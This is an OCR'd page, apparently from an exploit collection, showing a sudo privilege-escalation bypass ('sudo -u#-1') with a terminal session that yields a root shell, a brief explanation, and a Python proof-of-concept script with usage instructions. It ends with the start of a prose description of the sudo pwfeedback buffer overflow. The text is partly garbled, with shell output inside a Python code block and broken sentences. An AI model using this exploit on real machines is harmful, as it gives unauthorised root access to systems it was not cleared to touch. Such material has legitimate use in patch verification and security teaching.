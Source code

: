 ``` python

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#

Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id

and /bin/bash is executed with root permission
Proof of Concept Code :

How to use :
python3 sudo_exploit.py

'''


#!/usr/bin/python3

import os

#Get current username

username = input("Enter current username :")


#check which binary the user can run with sudo

os.system("sudo -l > priv")


os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")

binary_file = open("binary")

binary= binary_file.read()

#execute sudo exploit

print("Lets hope it works")

os.system("sudo -u#-1 "+ binary)
```
## CVE-2019-18634
'pwfeedback' Buffer Overflow  
Sudo versions prior to 1.8.26  
Sudo's pwfeedback option can be used to provide visual feedback when the user is inputting  
their password. For each key press, an asterisk is printed. This option was added in  
response to user confusion over how the standard Password: prompt disables the echoing   
of key presses. While pwfeedback is not enabled by default in the upstream version of sudo,  
some systems, such as Linux Mint and Elementary OS, do enable it in their default sudoers files.  
